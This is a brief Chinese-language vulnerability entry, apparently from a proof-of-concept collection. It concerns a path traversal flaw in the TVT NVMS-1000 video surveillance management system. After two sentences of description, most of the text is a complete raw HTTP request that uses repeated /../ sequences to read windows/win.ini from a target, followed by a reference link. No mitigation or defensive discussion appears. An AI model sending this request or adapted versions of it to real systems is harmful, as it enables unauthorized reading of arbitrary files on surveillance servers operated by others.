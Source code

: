 # TVT数码科技 NVMS-1000 路径遍历漏洞

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件。


```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

ref：

http://wiki.xypbk.com/Web%E5%AE%89%E5%85%A8/TVT%E6%95%B0%E7%A0%81%E7%A7%91%E6%8A%80-NVMS-1000/TVT%E6%95%B0%E7%A0%81%E7%A7%91%E6%8A%80%20NVMS-1000%20%E8%B7%AF%E5%BE%84%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E.md?btwaf=20301571
